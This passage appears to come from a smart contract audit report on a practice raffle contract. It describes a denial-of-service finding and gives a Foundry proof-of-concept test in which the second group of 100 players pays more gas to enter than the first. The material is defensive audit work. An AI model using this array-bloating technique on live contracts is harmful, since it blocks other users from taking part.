 ### Impact

- **Scalability bottleneck**: Gas costs grow rapidly as more users enter.
- **DoS risk**: Attackers can bloat the array to block further participation.
- **User frustration**: Later users may face higher costs or failed entries.

### Proof of Concept

If the raffle has 2 sets of 100 players participating, the first 100 players pay less than the second set of 100 players.

``` solidity
// Note: Gas usage may vary slightly across EVMs. 
// This test highlights the growing cost trend as players increase.
function testDenialOfService() public {
        vm.txGasPrice(1);
        uint256 playerNum = 100;
        address[] memory players = new address[](playerNum);

        for (uint256 i = 0; i < playerNum; i++) {
            players[i] = address(i);
        }

        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEnd = gasleft();
        uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas used for first 100 players:", gasUsedFirst);

        //For the second 100 players
        address[] memory playersTwo = new address[](playerNum);

        for (uint256 i = 0; i < playerNum; i++) {
            playersTwo[i] = address(i + playerNum);
        }

        uint256 gasStartSecond = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersTwo.length}(playersTwo);
        uint256 gasEndSecond = gasleft();
        uint256 gasUsedSecond = (gasStartSecond - gasEndSecond) * tx.gasprice;
        console.log("Gas used for second 100 players:", gasUsedSecond);

        assertTrue(gasUsedFirst < gasUsedSecond);
    }
```

#### Steps to run the test

1. Install packages and Compile project:

```bash
make 
```
